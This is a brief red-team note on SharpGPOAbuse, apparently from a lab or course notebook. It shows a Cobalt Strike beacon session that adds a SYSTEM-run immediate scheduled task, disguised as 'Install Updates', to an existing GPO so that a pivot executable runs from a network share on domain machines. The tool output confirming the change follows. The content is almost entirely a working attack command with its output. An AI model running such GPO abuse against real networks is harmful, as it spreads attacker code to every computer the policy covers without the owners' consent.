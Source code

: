 # SharpGPOAbuse

SharpGPOAbuse allows a wider range of "abusive" configurations to be added to a GPO.
-> It cannot create GPOs, so we must still do that with RSAT or modify one we already have write access to.

## [[Group Policy (GPO)]]
Add an Immediate Scheduled Task to existing GPO
``````beacon
beacon> getuid
[*] You are EDU\john

beacon> execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Debug\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c \\dc-2\software\pivot.exe" --GPOName "PowerShell Logging"

[+] Domain = edu.evil.corp
[+] Domain Controller = dc-2.edu.evil.corp
[+] Distinguished Name = CN=Policies,CN=System,DC=edu,DC=evil,DC=corp
[+] GUID of "PowerShell Logging" is: {AD7EE1ED-CDC8-4994-AE0F-50BA8B264829}
[+] Creating file \\edu.evil.corp\SysVol\edu.evil.corp\Policies\{AD7EE1ED-CDC8-4994-AE0F-50BA8B264829}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new immediate task. Wait for the GPO refresh cycle.
[+] Done!
```````

```meta
requirements: 
results: 
opsec: 
oss: 
source: https://github.com/FSecureLABS/SharpGPOAbuse
description: 
```